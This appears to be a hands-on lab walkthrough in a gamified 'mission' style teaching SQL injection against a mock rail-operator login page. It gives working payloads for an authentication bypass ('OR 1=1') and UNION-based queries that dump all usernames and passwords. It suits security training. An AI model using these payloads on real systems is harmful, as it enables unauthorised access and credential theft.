








# SQL Injection

1.	Start by exploring their website: [NMBS website](https://www.nmbs.exn.be/)

1. When you browse to the **My NMBS** app, you’re presented with a login page.

    

    

    <div class="purple">
    This is where the magic happens. Behind this login page is a database. Let’s test its defenses.
    </div>
    <br>


1. First, we’ll test for SQL injection vulnerability:

    ```
    '
    ```

    *Purpose: To see if the application throws an SQL error indicating the presence of an injection vulnerability.*

    

    *Oh yes, success: the website is vulnerable against SQL injections*

1. **Next, let’s probe deeper into the MySQL implementation.**

    ```
    ' OR 1=1 -- '
    ```
    
    **Soldier, attention to detail is critical throughout our entire mission, do not fail us!**

    *Remark the `-- ‘` =   two dashes, one space and one single quote*

    <br>

    **Payload**: This is a classic SQL injection technique used to bypass authentication. Effect: The `OR 1=1` condition always evaluates to true, effectively bypassing the password check. 
    The `-- '` comments out the rest of the query, so the password condition check performed by the code is actually ignored.

    **Result**: Success! The website logs in as the first user in the database, which is Freddie Guilty.

    

    Now that you’ve gained access, it’s time to gather information about the users of this site. **Where would this information be stored?**
    

1. **Take a look around!**


    <div class="purple">
    Tip, check the following pages:
    
    - `Mijn MoBIB-kaarten en abonnementen`
    - `Mijn persoonlijke gegevens`
    - `Elektronische portefeuille`
    </div>

    <br>

    

    We find that `Mijn persoonlijke gegevens` gives us a treasure trove of data from the database.


1. **Extract data from the database for all users**

    - First, determine the number of columns in the database. This is a **trial and error**, for example let’s try with 6 columns:

        ```
        ' UNION SELECT 1,2,3,4,5,6 –- '
        ```

        **Output**: Indicates whether the SELECT statement is successful. It appears we have more columns then 6. 
        
    - Keep trying trial and error.


        ```
        ' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 -- ' 
        ```

        **Result**: Success! We now know the database has **11 columns**. 

         

        The result shows you which field in the web UI is mapped to the database.


1. **Construct a SQL query to extract all usernames and passwords**

    Dump the entire database using the following command:
    ```
    ' UNION SELECT 1, GROUP_CONCAT(id, ' | ', username, ' | ', password SEPARATOR '; '), 3, 4, 5, 6, 7, 8, 9, 10, 11 FROM users -- ' 
    ```

    However, you will notice this results in show output cut off and formatting issues.
    
    **Use the following command to get a clearer view of the database content:**

    ```
    ' UNION SELECT 1, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20) AS first_part), 3, 4, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 20) AS second_part), 6, 7, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 40) AS third_part), 9, 10, 11 -- t'
    ```

    
    
    **Result**: Now, you’ve extracted the complete database with all the users and their passwords. Hacking well done!

<br>



<br>


<div class="info">

Details about the SQL Query if you are intrigued:

**Formatting**: we use `<br>` **HTML tag** between all users instead off a semicolon `;` to obtain a neatly formatted output.

**Data truncation**: The command splits the output into different parts and display it in **fields** `5` and `8`. If you split the data by 20 users, you won’t hit the **maximum field size** limit:

- The first GROUP_CONCAT fetches the first 20 users and concatenates their ID, username, and password.

- The second GROUP_CONCAT does the same for users 21 to 40.

- The third GROUP_CONCAT handles users 41 to 60.

</div>


    